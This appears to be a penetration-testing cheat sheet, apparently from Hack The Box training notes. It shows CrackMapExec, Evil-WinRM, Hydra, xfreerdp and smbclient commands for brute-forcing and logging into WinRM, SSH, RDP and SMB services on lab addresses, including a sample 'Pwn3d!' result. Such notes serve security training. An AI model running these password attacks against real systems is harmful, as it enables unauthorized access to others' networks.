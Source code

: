 # CrackMapExec Usage 

CrackMapExec (a.k.a CME) is a post-exploitation tool that _helps automate assessing the security of large Active Directory networks_.

> Installation of the tool
---

```
$ sudo apt-get install crackmapexec
```



> The general format for using CrackMapExec is as follows:
---
```
$ crackmapexec <proto> <target-IP> -u <user or userlist> -p <password or passwordlist>
```

```
$ crackmapexec winrm 10.129.42.197 -u user.list -p password.list

WINRM       10.129.42.197   5985   NONE             [*] None (name:10.129.42.197) (domain:None)
WINRM       10.129.42.197   5985   NONE             [*] http://10.129.42.197:5985/wsman
WINRM       10.129.42.197   5985   NONE             [+] None\user:password (Pwn3d!)
```

```
$ crackmapexec smb 10.129.42.197 -u "user" -p "password" --shares
```

#crackmapexec #network_service
# Evil-WinRM Usage

A handy tool that we can use to communicate with the WinRM service is [Evil-WinRM](https://github.com/Hackplayers/evil-winrm), which allows us to communicate with the WinRM service efficiently.

> Installation of the tool
---

```
$ sudo apt-get install evil-winrm 
```



> The general format for using CrackMapExec is as follows:
---
```
$ evil-winrm -i <target-IP> -u <username> -p <password>
```

#evil-winrm #network_service
# SSH

[Secure Shell](https://www.ssh.com/academy/ssh/protocol) (`SSH`) is a more secure way to connect to a remote host to execute system commands or transfer files from a host to a server. The SSH server runs on `TCP port 22` by default, to which we can connect using an SSH client. This service uses three different cryptography operations/methods: `symmetric` encryption, `asymmetric` encryption, and `hashing`.
### Hydra - SSH

>  We can use a tool such as `Hydra` to brute force SSH. This is covered in-depth in the [Login Brute Forcing](https://academy.hackthebox.com/course/preview/login-brute-forcing/introduction-to-brute-forcing) module.


```
$ hydra -L user.list -P password.list ssh://10.129.42.197
```

```
hydra -t 16 -l administrator -P /usr/share/wordlists/rockyou.txt -vV 10.10.148.172 ssh
```
#hydra #ssh 

To log in to the system via the SSH protocol, we can use the OpenSSH client, which is available by default on most Linux distributions. 

```
$ ssh user@10.129.42.197
```

#ssh #network_service #hydra 
# Remote Desktop Protocol (RDP)

Microsoft's [Remote Desktop Protocol](https://docs.microsoft.com/en-us/troubleshoot/windows-server/remote/understanding-remote-desktop-protocol) (`RDP`) is a network protocol that allows remote access to Windows systems via `TCP port 3389` by default. RDP provides both users and administrators/support staff with remote access to Windows hosts within an organization. The Remote Desktop Protocol defines two participants for a connection: a so-called terminal server, on which the actual work takes place, and a terminal client, via which the terminal server is remotely controlled. In addition to the exchange of image, sound, keyboard, and pointing device, the RDP can also print documents of the terminal server on a printer connected to the terminal client or allow access to storage media available there. Technically, the RDP is an application layer protocol in the IP stack and can use TCP and UDP for data transmission. The protocol is used by various official Microsoft apps, but it is also used in some third-party solutions.

### Hydra - RDP

> We can also use `Hydra` to perform RDP bruteforcing.

```
$ hydra -L user.list -P password.list rdp://10.129.42.197
```

### xFreeRDP

 > xfreerdp is an X11 Remote Desktop Protocol (RDP) client which is part of the FreeRDP project. An RDP server is built-in to many editions of Windows. Alternative servers included xrdp and VRDP (VirtualBox). 


```
$ xfreerdp /v:<target-IP> /u:<username> /p:<password>
```

#rdp #network_service #hydra 

# SMB

[Server Message Block](https://docs.microsoft.com/en-us/windows/win32/fileio/microsoft-smb-protocol-and-cifs-protocol-overview) (`SMB`) is a protocol responsible for transferring data between a client and a server in local area networks. It is used to implement file and directory sharing and printing services in Windows networks. SMB is often referred to as a file system, but it is not. SMB can be compared to `NFS` for Unix and Linux for providing drives on local networks.

SMB is also known as [Common Internet File System](https://cifs.com/) (`CIFS`). It is part of the SMB protocol and enables universal remote connection of multiple platforms such as Windows, Linux, or macOS. In addition, we will often encounter [Samba](https://wiki.samba.org/index.php/Main_Page), which is an open-source implementation of the above functions. For SMB, we can also use `hydra` again to try different usernames in combination with different passwords.

### Hydra - SMB

> We can also use `Hydra` to perform SMB bruteforcing.

```
$ hydra -L user.list -P password.list smb://10.129.42.197
```

> usage of smbclient

```
$ smbclient -U user \\\\10.129.42.197\\SHARENAME
```


#smb  #network_service #hydra  #smbclient
